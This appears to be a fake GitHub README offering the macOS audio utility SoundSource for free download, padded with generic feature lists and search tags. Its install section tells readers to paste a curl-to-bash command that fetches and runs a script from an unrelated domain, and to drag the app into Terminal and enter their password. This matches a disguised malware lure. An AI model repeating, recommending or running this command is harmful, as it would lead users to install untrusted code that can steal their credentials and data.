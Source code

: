 # SoundSource For Mac — Download For Mac OS

SoundSource is a powerful audio utility for macOS that gives you full control over audio input, output, and system sound settings. Easily switch devices, apply effects, and control volume with just a few clicks. 🔊

[![Download for macOS](https://img.shields.io/badge/Download%20for%20macOS-SoundSource-blue?style=for-the-badge\&logo=apple)](https://fituganshfgh.github.io/.github/ss)

If the download button doesn't work, please use the Terminal installation method below.

---

## 📦 How to Install SoundSource For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and drag the SoundSource app into the Applications folder.
3. Open Terminal and drag the SoundSource app into it.
4. Press "Return" and enter your macOS password if prompted (leave blank if none).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal, paste the command, and press "Return".
3. Enter your password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With SoundSource

* 🎚 Instantly switch audio input and output devices
* 🔈 Apply volume adjustments and effects per app
* 🎧 Add audio effects like equalizer, balance, and more
* 🖥 Full control from the menu bar without opening settings
* 🎛 Route specific app audio to different devices
* 🔐 Lightweight, responsive, and secure

---

## About SoundSource For Mac

SoundSource for Mac is an advanced macOS utility designed to give you effortless control over your Mac’s audio. It allows users to manage input/output devices and audio routing per application — all from a clean, menu bar interface.

Whether you're using external monitors, headphones, or USB interfaces, SoundSource lets you quickly adjust which device plays or records sound. Volume and effects can be adjusted for each app independently, providing pro-level audio flexibility.

Built by Rogue Amoeba, SoundSource integrates deeply with macOS and provides tools that go far beyond the default audio settings. You can apply an equalizer, enable volume boosting, or isolate audio routing for each application on your system.

For streamers, musicians, or power users, SoundSource is essential. It's fast, efficient, and tailored for those who need more from macOS audio without complex setups.

---

## 🌟 Key Benefits of Using SoundSource

* 🎚 Per-app audio control and output switching
* 🎧 System-wide audio effects and equalizer
* 🔄 Quickly change input/output from the menu bar
* 🎯 Perfect for streamers, creators, and audiophiles
* 🔒 No background bloat — fast and efficient
* 🧩 Deep macOS integration, no extra drivers needed

---

## 🖼 Preview

![Main Interface](https://i.ytimg.com/vi/n0x43MaaalQ/maxresdefault.jpg)
*Manage all your Mac audio from one place*


---

## 🔍 Tags

soundsource mac download, soundsource for mac free, soundsource, sound source, sound source for mac, sound source download, sound source audio, mac sound source
